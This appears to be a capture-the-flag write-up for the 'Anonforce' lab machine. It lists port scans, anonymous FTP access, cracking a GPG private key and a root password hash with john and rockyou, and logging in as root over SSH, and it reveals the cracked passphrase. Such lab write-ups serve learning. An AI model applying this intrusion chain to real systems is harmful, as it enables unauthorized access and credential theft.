 # Anonforce

```Bash
rustscan -a 10.10.137.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/2eb52051-8d62-4057-a1eb-9be9889e0077)

![image](https://github.com/lufffe/Writeups/assets/90646635/f087c7a5-e1bf-4fb6-8b03-456f6de445da)


```Bash
nmap -A -p 21,22 10.10.137.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/5481b171-505b-4098-a9b5-232cb3ae6a6b)


```Bash
ftp 10.10.137.35
```
![image](https://github.com/lufffe/Writeups/assets/90646635/593317a7-6ef8-46ff-847e-8caeb6f6cc36)


![image](https://github.com/lufffe/Writeups/assets/90646635/a3b72171-b83d-4166-a0b2-8c1935570708)

```Bash
cat user.txt
```
>#####################################

![image](https://github.com/lufffe/Writeups/assets/90646635/1e22fcd1-0ff8-4f5f-b6f0-e0e5f34d0730)

![image](https://github.com/lufffe/Writeups/assets/90646635/19810faa-c329-4c5c-93e9-8e7d790be8d4)

```Bash
/usr/sbin/gpg2john private.asc > hash
```


```Bash
john --wordlist=~/rockyou.txt hash   
```
- xbox360          (anonforce) 

```Bash
gpg --import private.asc
```

![image](https://github.com/lufffe/Writeups/assets/90646635/c289986d-2006-4fb8-b71e-72f54ad4ab11)

```Bash
john --wordlist=~/rockyou.txt root.hash
```

![image](https://github.com/lufffe/Writeups/assets/90646635/668176f3-4656-43c8-9c2e-5b1d04e974cc)

```
ssh root@10.10.137.35
```

![image](https://github.com/lufffe/Writeups/assets/90646635/4351685c-ce14-4f48-85c7-9ff6cd8bc031)
